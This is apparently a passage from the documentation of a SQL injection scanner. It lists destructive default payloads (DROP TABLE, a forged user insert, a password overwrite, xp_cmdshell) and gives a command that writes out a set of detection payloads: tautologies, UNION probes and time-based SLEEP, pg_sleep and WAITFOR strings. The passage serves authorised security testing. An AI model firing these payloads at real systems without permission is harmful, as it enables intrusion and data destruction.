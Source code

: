 #### ⚠️ Destructive Payloads (In Defaults)
- **Table deletion**: `'; DROP TABLE users--`
- **Data insertion**: `'; INSERT INTO users VALUES('hacker','password')--`
- **Data modification**: `'; UPDATE users SET password='hacked'--`
- **System commands**: Various xp_cmdshell attempts

#### Database-Specific Payloads
- **MySQL**: `@@version`, `information_schema` queries
- **PostgreSQL**: `version()`, `current_database()`
- **Oracle**: `v$version`, `dual` table queries
- **SQLite**: `sqlite_version()`
- **SQL Server**: `@@SERVERNAME`, system function calls

### Recommended sqli Payload Set

For production scanning, use only detection payloads:

```bash
# Create sqli_payloads.txt
cat > sqli_payloads.txt << 'EOF'
# Basic detection payloads - SAFE FOR PRODUCTION
'
"
' OR '1'='1
" OR "1"="1
' OR '1'='1' --
" OR "1"="1" --
' OR 1=1--
" OR 1=1--
' UNION SELECT NULL--
" UNION SELECT NULL--
' UNION SELECT NULL,NULL--
" UNION SELECT NULL,NULL--
' AND 1=1--
" AND 1=1--
' AND 1=2--
" AND 1=2--
' AND SLEEP(1)--
" AND SLEEP(1)--
' AND pg_sleep(1)--
" AND pg_sleep(1)--
'; WAITFOR DELAY '00:00:01'--
"; WAITFOR DELAY '00:00:01'--
' AND (SELECT * FROM (SELECT(SLEEP(1)))a)--
" AND (SELECT * FROM (SELECT(SLEEP(1)))a)--
EOF
```
## 🔍 Detection Methods

The scanner uses multiple sophisticated detection techniques:

### 1. Error-Based Detection
